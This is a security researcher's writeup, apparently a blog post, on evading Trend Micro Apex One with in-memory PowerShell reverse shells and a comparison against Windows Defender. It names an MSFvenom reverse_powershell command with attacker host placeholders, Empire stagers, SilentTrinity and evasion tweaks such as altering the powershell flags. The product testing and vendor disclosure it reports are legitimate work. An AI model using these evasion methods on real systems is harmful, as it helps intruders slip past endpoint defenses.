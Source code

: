# Bypassing Trend Micro Apex One

![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)
___________________________________
## Background

1. Currently, Apex One can be bypassed using simple or even very basic payloads that mostly reside in memory. 
2. Currently, Apex One can be bypassed using exploit tools or frameworks that have aged well beyond the point where many would logically think that most vendors would have a solution to detect their signatures, etc.

Here's the [solution brief](www.trendmicro.com/en_us/business/products/user-protection/sps/endpoint.html?modal=overview-apex-f2049a) about Apex One.

Obviously, a product like this isn't going to prevent bleeding-edge methods or techniques that are used to get around them. The same goes for customized payloads. For example, the simple reverse PowerShell script I wrote gets around Defender and AMSI in Windows 10 build 1903 as of June 7th. The art of bypassing anti-virus and EDR solutions is a whole other topic on its own that consists of individuals who know much more than I do when it comes to this type of stuff. 

Before you ask, yes I did check the settings in the administration console. I double checked, triple checked, checked a fourth time, and then checked again for the hell of it. Other colleagues and individuals from Trend have checked the settings. I'm sure they would have told me to shove off by now and check again if it was something on my end. 

![bms](Post%20Images/TMAO-Bypass-imgs/misc-imgs/BMS.PNG)
![scs](Post%20Images/TMAO-Bypass-imgs/misc-imgs/SCS.PNG)

## Testing

I wanted to put Trend Micro's Apex One solution to the test. For the sake of testing, the scenario was set in a situation in which an attacker had some sort of access to the machine. This could be a reverse shell, recovered creds that allowed for smblogin, login through RDP, etc. Needless to say, I was a bit shocked when I discovered how trivial it was to skate around with Apex. Before I started testing, I had done enough research to know the basics or at least have a decent grasp on the thought process that went into the techniques of bypassing AV and EDR solutions. As expected, Apex was blocking anything malicious that touched the disk. However, things started going downhill when I started testing payloads that resided in memory only. Keep in mind I wasn't trying to get sophisticated or do anything advanced. All I was doing at this point was using well known and publicly available tools and frameworks and throwing them at my test machine to see if the agent would pick it up. All I wanted to do was to make sure it was stopping known or old payloads and tools.

### Tools and payloads that were used to bypass Apex One

* MSFvenom: cmd/windows/reverse_powershell lhost=\<attackip\> lport=\<attakport\>
* PowerShell Empire with http listener and launcher to generate the stager
* My custom reverse PowerShell script
* A random reverse [PowerShell one-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
* SilentTrinity


## MSFVenom cmd/windows/reverse_powershell

![msfv_1](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/kalivm_msfv.PNG)
![msfv_2](Post%20Images/TMAO-Bypass-imgs/misc-imgs/Win10Prod_LI.jpg)
![msfv_3](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfvenom_payload.PNG)
![msfv_4](Post%20Images/TMAO-Bypass-imgs/misc-imgs/Win10Prod_rpsh_exec.PNG)
![msfv_5](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfv_bypass_LI.jpg)
![msfv_6](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfv_bypass2_LI.jpg)

## Observations & Anomalies

## PowerShell Empire

I worked with Trend to get a patch pushed out to specifically alarm on PowerShell Empire (they're still working on having Apex detect the MSFvenom cmd/windows/reverse_powershell payload). Apex received the patch on May 8th and I was still able to get around Apex with Empire. On the 23rd of May, Apex had for the first time in my environment, successfully prevented the callback to Empire. Everything was fine and dandy until on June 5th, I tested Apex again for the sake of consistency. Apex once again failed to prevent the callback the Empire instance running on my Kali machine. At this time I noticed that the IP on my Kali box had changed. Thus, began the trend of inconsistencies.

While testing after the 5th of June, I noticed three things. The first one is that changing the IP of my Kali machine looked like it had some role in Empire being successful again, but I highly doubt it would be that simple to outmaneuver and EDR solution like that. The second anomaly was the effect of base64 encoded payloads. When using the MSFvenom payload cmd/windows/reverse_powershell in conjunction with the Magic Unicorn payload generator from TrustedSec, Apex One was alerting on it. Apex seems to ignore it if I just straight up generate the payload with MSFvenom with no encoding. My basic knowledge of how AV and EDR technologies work leads me to believe that the engine is building a risk rating based on several factors or attributes associated with the PowerShell code. Since the PowerShell code is obfuscated via base64 encoding, it uses this information as one factor along with several other factors to determine whether or not it is harmful or suspicious. In this case, it correctly identified that the payload generated from the Magic Unicorn payload generator is indeed malicious. Before the May 8th patch, the opposite seemed to be occurring when using the base64 encoded PowerShell payload generated from the launcher command in Empire. With this in mind, I decided to decode the base64 encoded payload Empire produced. It seemed to have worked for a short while before Apex decided to start blocking it.

The third and final anomaly that has been the most consistent in getting me around Apex since the update is simply changing the [flags](https://docs.microsoft.com/en-us/powershell/module/Microsoft.PowerShell.Core/About/about_PowerShell_exe?view=powershell-5.1). These flags are used with the `powershell` command before the base64 encoded payload body. Just by mere observation alone, Apex is very inconsistent when alerting on this method. Sometimes it will alert if I leave the default flags `powershell -w hidden -noP`. Sometimes it will alert if I tweak them. Sometimes it will alert if I do it either way. I'm not exactly sure why this is though, but it's extraordinarily interesting to me.

#### Default payload generation

![PSE_default_bypass](Post%20Images/TMAO-Bypass-imgs/Empire-imgs/Inkeddefault_LI.jpg)
![PSE_default_privesc](Post%20Images/TMAO-Bypass-imgs/Empire-imgs/Inkeddefault_privesc_LI.jpg)

#### Payload tweak & modification

![PSE_mod](Post%20Images/TMAO-Bypass-imgs/Empire-imgs/Inkedmod_LI.jpg)


## A Shocking Revelation

During testing, I needed to gather metrics from other AV and EDR solutions to compare against Apex One. Why not start with Windows Defender in the latest Windows 10 Pro build? I created an ISO build 1809 (and later 1903 after testing a trial version of CrowdStrike Falcon Prevent), installed the latest updates for the operating system and definitions for Defender. The results shocked me, to say the least. You'd think a free, built-in AV that comes with Windows would be absolute trash, but it's quite the opposite. From my testing, Windows Defender and ASMI in build 1809 were able to block everything Apex One wasn't. It even blocked the aforementioned PowerShell oneliner from the GitHub link. 

![Github One-liner](Post%20Images/TMAO-Bypass-imgs/misc-imgs/amsi_github_oneliner.PNG)

However, I was able to get around it using my custom reverse PowerShell script (this was expected) and silenttrinity. Defender and ASMI did even better in build 1903 as it stone-walled everything except my custom reverse PowerShell script. I should state that more testing will need to be done with silenttrinity as I didn't receive a message from AMSI or Defender saying something malicious was going on. However, I did received an error message telling me that the PowerShell stager with the embedded interpreter for the Boo lang payload and the MSBuild.xml stager failed to build correctly. This could be due to changes in the Windows operating system itself in build 1903 or changes in PowerShell and the .NET framework. Furthermore, to rule out the environment as being the culprit of the issues with Apex One, I decided to unload and remove the Apex agent from a production workstation that wasn't important, let Defender take over and perform the same tests. Again, Defender stopped what Apex One couldn't.

## (06-14-19)

* The majority of the payloads that I've created or generated and that have touched the disk were detected as they should be.
* By mere observation, it looks like Trend is having trouble detecting malicious code that runs in memory and in some way interacts with the .NET framework via PowerShell, C#, etc.
* Furthermore, the current factors or attribute flags used to help the engine determine whether or not this code is malicious are simply not sufficient enough in **my opinion**.
* Microsoft's Windows Defender via the latest Windows 10 build is a much better solution at this time.
